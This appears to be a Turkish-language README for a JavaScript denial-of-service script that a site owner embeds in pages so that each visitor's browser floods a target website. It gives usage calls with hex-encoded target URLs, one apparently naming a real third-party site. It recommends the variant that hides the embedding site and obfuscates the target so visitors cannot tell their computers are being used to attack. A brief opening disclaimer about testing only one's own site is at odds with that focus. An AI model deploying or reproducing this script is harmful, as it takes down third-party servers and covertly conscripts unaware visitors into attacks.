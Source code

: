  Başkalarının sitesinde kullanmayınız kendi sitenize saldırıp test edip önlemler üretmeyi deneyiniz.<br><br>
  
  Not: Bu scripti eklediğiniz size ait web sitesine giren her kullanıcı hedef siteye saldırır, yani sitenizde şuanda 1000 online olduğunu var sayarsak, karşıdaki sunucu 16gb lık bir ram ile muhtemelen cevap veremeyecek hale gelecek ve sitesi çalışmayacaktır. <br><br>
  Tercihiniz aşağıdaki 3. yöntem önerilir. !!! <br>
  
  şimdilik kullanım dışı, image file atak <br><br>
  ImageUrlToBase64('https://www.example-site.com/index.php?p=','https://your-image-url.com/android-chrome-512x512.png','base64'); // base64 file<br><br>
 ImageUrlToBase64('https://www.example-site.com/index.php?p=','https://your-image-url.com/android-chrome-512x512.png','file'); // direk file<br><br>
  // note: istekler karşılıksız olsada atak yapmaktadır.!!!<br>
  // şimdilik kullanım dışı, image file atak.<br><br>

  // # Kullanıma uygun örnekler<br><br>

   1-<br>
  //tek('68747470733a2f2f7777772e6566746f746f656b7370657274697a2e636f6d2f696e6465782e7068703f703d');<br><br>
  // bu atak kullandıldığında, yine saldıran kişi ziyaretçi ip adresi olsada, ziyaretçinin hedefe saldırdığını ortaya çıkaran origin= ile site adresiniz gözükür.<br><br>


  2-<br>
  //cok('68747470733a2f2f7777772e6566746f746f656b7370657274697a2e636f6d2f696e6465782e7068703f703d');<br><br>
  // bu atak kullandıldığında, yine saldıran kişi ziyaretçi ip adresi olsada, ziyaretçinin hedefe saldırdığını ortaya çıkaran origin= ile site adresiniz gözükür. tek() fonksiyonundan farklı karşı tarafa çok daha yüksek byte ile saldırır, fakat bu yavaşlık yaratabiir. tek() kullanımı önerilen örnektir.<br><br><br><br>

  3- önerilen yöntem. karşı tarafta Saldıran sadece ziyaretçi ip adresi olarak görünür.<br><br>
  // örnek: site adresi = https://www.yoursitename.com/index.php?q= <br><br>
  // bu adresi str to hex yapınız 68747470733a2f2f7777772e796f7572736974656e616d652e636f6d2f696e6465782e7068703f713d
  istek_img('68747470733a2f2f7777772e796f7572736974656e616d652e636f6d2f696e6465782e7068703f713d','1');<br><br>
  // bu saldırı yönteminde site adresiniz asla gözükmez. artı olarka strtohex kullandığınız için ziyaretçi sayfa kaynağını görüntülesede kendi bilgisayarının saldırı amaçlı kullanıldığını fark edemez.<br><br>

  // # Kullanıma uygun örnekler
